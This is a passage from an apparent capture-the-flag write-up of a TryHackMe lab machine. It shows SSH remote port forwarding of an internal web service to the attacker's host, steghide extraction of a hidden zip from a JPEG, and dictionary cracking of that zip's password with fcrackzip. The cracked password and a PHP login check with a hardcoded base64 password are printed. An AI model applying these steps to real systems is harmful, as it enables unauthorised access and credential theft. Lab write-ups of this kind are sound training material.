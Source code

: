 </pre>

It looks like there are a couple of ports we may want to check out that are only listening for internal connections. 

<pre>curl 127.0.0.1:9001</pre>

The above shows there is a web server so let's forward the port using ssh:

[ssh port forwarding](https://www.ssh.com/ssh/tunneling/example)

I'm going to create a key on the box and enter it on my local machine auth keys. 

<pre>ssh -R 9001:localhost:9001 root@10.9.6.63</pre>

Now we can browse to localhost:9001 on our local machine and see this:

![port forward](https://imgur.com/Ox8hTeC.png)

If we use the creds we found before we are sent to this php page:

![hacker](https://imgur.com/1T3sECw.png)

"look in the dark" - maybe this is steg?

<pre>wget http://localhost:9001/images/hacker-with-laptop_23-2147985341.jpg

root@F3dai:~/TryHackMe/chill# steghide info hacker-with-laptop_23-2147985341.jpg 
"hacker-with-laptop_23-2147985341.jpg":
  format: jpeg
  capacity: 3.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "backup.zip":
    size: 750.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
</pre>

A compressed file is found in this file with no password so let's extract:

<pre>steghide extract -sf hacker-with-laptop_23-2147985341.jpg</pre>

This is password protected so maybe we can brute this?

<pre>fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u backup.zip
PASSWORD FOUND!!!!: pw == pass1word</pre>

We get a php file called **source_code.php**:

<pre>&lt;html&gt;
&lt;head&gt;
        Admin Portal
&lt;/head&gt;
        &lt;title&gt; Site Under Development ... &lt;/title&gt;
        &lt;body&gt;
                &lt;form method=&quot;POST&quot;&gt;
                        Username: &lt;input type=&quot;text&quot; name=&quot;name&quot; placeholder=&quot;username&quot;&gt;&lt;br&gt;&lt;br&gt;
                        Email: &lt;input type=&quot;email&quot; name=&quot;email&quot; placeholder=&quot;email&quot;&gt;&lt;br&gt;&lt;br&gt;
                        Password: &lt;input type=&quot;password&quot; name=&quot;password&quot; placeholder=&quot;password&quot;&gt;
                        &lt;input type=&quot;submit&quot; name=&quot;submit&quot; value=&quot;Submit&quot;&gt; 
                &lt;/form&gt;
&lt;?php
        if(isset($_POST['submit']))
        {
                $email = $_POST[&quot;email&quot;];
                $password = $_POST[&quot;password&quot;];
                if(base64_encode($password) == &quot;IWQwbnRLbjB3bVlwQHNzdzByZA==&quot;)
